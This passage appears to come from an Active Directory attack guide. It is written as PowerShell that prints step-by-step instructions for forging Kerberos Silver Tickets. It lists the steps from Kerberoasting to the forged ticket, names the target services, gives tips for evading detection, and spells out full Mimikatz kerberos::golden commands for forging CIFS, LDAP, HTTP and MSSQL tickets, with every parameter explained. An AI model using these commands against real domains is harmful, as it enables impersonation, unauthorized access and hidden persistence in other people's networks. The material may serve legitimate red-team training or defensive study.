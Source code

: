 ```powershell
Write-Host "  1. Extract service account hash via Kerberoasting" -ForegroundColor White
Write-Host "  2. Identify target service SPN" -ForegroundColor White
Write-Host "  3. Create forged service ticket using Mimikatz or Rubeus" -ForegroundColor White
Write-Host "  4. Use Silver Ticket for service access" -ForegroundColor White
Write-Host "  5. Maintain access to specific services" -ForegroundColor White

Write-Host "`nTarget Services:" -ForegroundColor Yellow
Write-Host "  - CIFS (File sharing)" -ForegroundColor Red
Write-Host "  - LDAP (Directory services)" -ForegroundColor Red
Write-Host "  - HTTP (Web services)" -ForegroundColor Red
Write-Host "  - MSSQLSvc (SQL Server)" -ForegroundColor Red
Write-Host "  - RPCSS (Remote procedure calls)" -ForegroundColor Red

Write-Host "`nDetection Evasion:" -ForegroundColor Yellow
Write-Host "  - Use legitimate usernames for tickets" -ForegroundColor White
Write-Host "  - Target specific services only" -ForegroundColor White
Write-Host "  - Minimize service access patterns" -ForegroundColor White
```

### **2. Silver Ticket Creation and Usage**

#### **Mimikatz Silver Ticket Creation**
```powershell
# Mimikatz Silver Ticket creation
Write-Host "=== MIMIKATZ SILVER TICKET CREATION ===" -ForegroundColor Green

Write-Host "Silver Ticket Creation Commands:" -ForegroundColor Yellow

Write-Host "`n1. CIFS Service Ticket:" -ForegroundColor Cyan
Write-Host "   mimikatz # kerberos::golden /user:Administrator /domain:cybercorp.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /target:FILE01.cybercorp.local /service:CIFS /rc4:SERVICE_HASH /ptt" -ForegroundColor White

Write-Host "`n2. LDAP Service Ticket:" -ForegroundColor Cyan
Write-Host "   mimikatz # kerberos::golden /user:Administrator /domain:cybercorp.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /target:DC01.cybercorp.local /service:LDAP /rc4:SERVICE_HASH /ptt" -ForegroundColor White

Write-Host "`n3. HTTP Service Ticket:" -ForegroundColor Cyan
Write-Host "   mimikatz # kerberos::golden /user:Administrator /domain:cybercorp.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /target:WEB01.cybercorp.local /service:HTTP /rc4:SERVICE_HASH /ptt" -ForegroundColor White

Write-Host "`n4. MSSQL Service Ticket:" -ForegroundColor Cyan
Write-Host "   mimikatz # kerberos::golden /user:Administrator /domain:cybercorp.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /target:SQL01.cybercorp.local /service:MSSQLSvc /rc4:SERVICE_HASH /ptt" -ForegroundColor White

Write-Host "`nParameter Explanation:" -ForegroundColor Yellow
Write-Host "  /user: Target username for impersonation" -ForegroundColor Gray
Write-Host "  /domain: Target domain name" -ForegroundColor Gray
Write-Host "  /sid: Domain SID" -ForegroundColor Gray
Write-Host "  /target: Target computer name" -ForegroundColor Gray
Write-Host "  /service: Target service type" -ForegroundColor Gray
Write-Host "  /rc4: Service account NTLM hash" -ForegroundColor Gray
Write-Host "  /ptt: Pass the ticket to current session" -ForegroundColor Gray
```
